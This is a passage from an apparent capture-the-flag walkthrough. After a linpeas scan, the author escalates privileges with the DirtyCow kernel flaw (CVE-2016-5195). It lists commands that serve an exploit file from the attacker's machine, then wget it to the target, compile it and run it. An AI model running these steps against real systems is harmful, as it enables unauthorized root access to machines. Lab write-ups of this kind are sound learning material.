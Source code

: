 We executed linpeas and found many interesting things, but the one which grabbed my attention the most was **CVE-2016-5195 dirtycow** vulnerability. I have used this vulnerability previously in many machines, so I am very much sure that we can exploit it without any troubles. The DirtyCow *[CVE-2016-5195](https://nvd.nist.gov/vuln/detail/cve-2016-5195)* vulnerability is a race condition exploit in the Linux kernel that allows local users to gain write access to read-only memory mappings, potentially leading to privilege escalation and system compromise. It specifically affects the *copy-on-write (COW)* mechanism used by the kernel.

**Commands (Attacker):**
- `ls`
- `python3 -m http.server 80`

**Commands (Target):**
- `wget http://[myIP]/privEsc.c`
- `gcc -pthread privEsc.c -o privEsc`
- `./privEsc`

![](Loly/21.png)